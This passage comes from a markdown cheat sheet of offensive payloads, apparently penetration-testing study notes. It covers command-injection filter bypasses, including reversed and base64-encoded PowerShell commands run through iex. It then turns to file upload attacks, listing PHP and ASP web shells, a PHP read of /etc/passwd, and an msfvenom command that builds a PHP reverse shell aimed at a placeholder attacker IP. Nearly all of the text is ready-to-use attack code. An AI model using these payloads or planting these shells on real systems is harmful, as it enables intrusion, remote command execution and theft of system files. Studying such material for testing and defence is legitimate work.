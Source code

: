 ### Other Characters

| Code                                     | Description                                        |
|------------------------------------------|----------------------------------------------------|
| `%HOMEPATH:~0,-17%`                      | Will be replaced with \ - (CMD)                    |
| `$env:HOMEPATH[0]`                       | Will be replaced with \ - (PowerShell)             |

## Blacklisted Command Bypass

### Character Insertion

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `' or "`                 | Total must be even                                 |
| `^`                      | Windows only (CMD)                                 |

### Case Manipulation

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `WhoAmi`                 | Simply send the character with odd cases           |

### Reversed Commands

| Code                                             | Description                                        |
|--------------------------------------------------|----------------------------------------------------|
| `"whoami"[-1..-20] -join ''`                     | Reverse a string                                   |
| `iex "$('imaohw'[-1..-20] -join '')"`            | Execute reversed command                           |

### Encoded Commands

| Code                                                                                            | Description                                        |
|-------------------------------------------------------------------------------------------------|----------------------------------------------------|
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                  | Encode a string with base64                        |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                         |

# File Upload

## Web Shell

| Web Shell                                         | Description                   |
|---------------------------------------------------|-------------------------------|
| `<?php file_get_contents('/etc/passwd'); ?>`      | Basic PHP File Read           |
| `<?php system('hostname'); ?>`                    | Basic PHP Command Execution   |
| `<?php system($_REQUEST['cmd']); ?>`              | Basic PHP Web Shell           |
| `<% eval request('cmd') %>`                       | Basic ASP Web Shell           |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell     |
| PHP Web Shell                                     | PHP Web Shell                 |
| PHP Reverse Shell                                 | PHP Reverse Shell             |
| Web/Reverse Shells                                | List of Web Shells and Reverse Shells |

